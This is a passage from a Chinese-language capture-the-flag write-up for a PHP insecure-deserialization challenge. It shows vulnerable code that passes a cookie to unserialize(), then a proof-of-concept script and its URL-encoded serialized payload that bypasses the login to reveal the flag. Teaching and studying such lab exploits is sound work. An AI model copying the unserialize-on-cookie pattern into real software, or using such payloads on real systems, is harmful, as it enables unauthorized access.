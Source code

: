 #### 3.第三关

第三关代码如下：

```php
<?php
highlight_file(__FILE__);
include("flag.php");
class mylogin{
    var $user;
    var $pass;
    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }
    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            return 1;
        }
    }
}
$a=unserialize($_COOKIE['param']);
if($a->login())
{
    echo $flag;
}
?> 
```

这一关的代码和上一关的代码内容类似，只不过这个是利用cookie来来进行传参，用cookie来传参需要进行url编码，因此poc改为：

```php
<?php
class mylogin{
    var $user = "daydream";
    var $pass = "ok";
  
}
$a = new mylogin();
$a=serialize($a);
echo urlencode($a);   //  O%3A7%3A%22mylogin%22%3A2%3A%7Bs%3A4%3A%22user%22%3Bs%3A8%3A%22daydream%22%3Bs%3A4%3A%22pass%22%3Bs%3A2%3A%22ok%22%3B%7D 
?> 
```
